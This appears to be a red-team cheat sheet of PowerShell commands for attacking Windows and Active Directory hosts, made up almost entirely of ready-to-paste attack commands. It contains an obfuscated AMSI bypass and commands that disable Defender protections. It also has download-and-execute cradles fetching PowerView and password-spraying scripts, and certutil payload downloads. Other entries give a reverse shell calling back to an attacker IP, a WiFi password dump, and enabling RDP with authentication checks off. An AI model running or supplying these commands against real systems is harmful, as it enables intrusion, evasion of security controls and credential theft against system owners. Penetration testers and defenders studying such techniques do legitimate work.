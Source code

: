 ```yaml
---
description: Cheat Sheet for Active Directory Red Teaming
---
```


# Cheat-Sheet Powershell

## Execution Policy Bypass methods

```
powershell -ep bypass
powershell -c [cmd]
powershell ExecutionPolicy bypass
powershell encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

## AMSI Bypass

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Disabling AntiVirus/Malware Protection (Requires Admin Rights)

```
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableBehaviorMonitoring $true
```

## Downloading Files

```
certutil.exe -urlcache -f http://10.0.0.5/lazypentester.exe lazypentester.exe
certutil -urlcache -split -f http://10.10.14.20/lazypentester.ps1
```

## Importing Powershell Module

Import locally saved module&#x20;

```
Import-Module [path]
..\ModuleName.ps1
```

Import-Module  from web

```
//commonly used
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

//Powershell v3 onwards
iex (iwr 'https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1')

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

//didn't work for me
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

## Check Privileges of the current session

```
whoami /priv
```

## List out All Available Commands

```
Get-Command -CommandType cmdlet
```

## Install MSI files as Administrator from Powershell (requires admin Rights)

```
Start-Process msiexec.exe '/i "C:\path\Nessus-8.7.1-x64.msi" /qf' -Verb RunAs
```

## Start New Powershell Console as Administrator from current Powershell running as admin

```
Start-Process powershell  -Verb RunAs
```

## Show WiFi Password in CMD or PowerShell

Show all stored SSID's(wifi network names)

```
netsh wlan show profiles
```

To Display Password of a wifi network (SSID)

```
netsh wlan show profile [wifi_name] key=clear
```

## Reverse Shell

```
\\hosting payload
python -m SimpleHTTPServer 1337

\\listening with powercat
powercat -l -p 423

\\on victim 
iex (iwr 'http://172.16.100.82:1337/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.82 -Port 423
powershell.exe "iex (New-Object Net.WebClient).DownloadString('http://172.16.100.82:1337/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.82 -Port 443"
```

## History in Powershell&#x20;

```
Get-History
```

## Enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

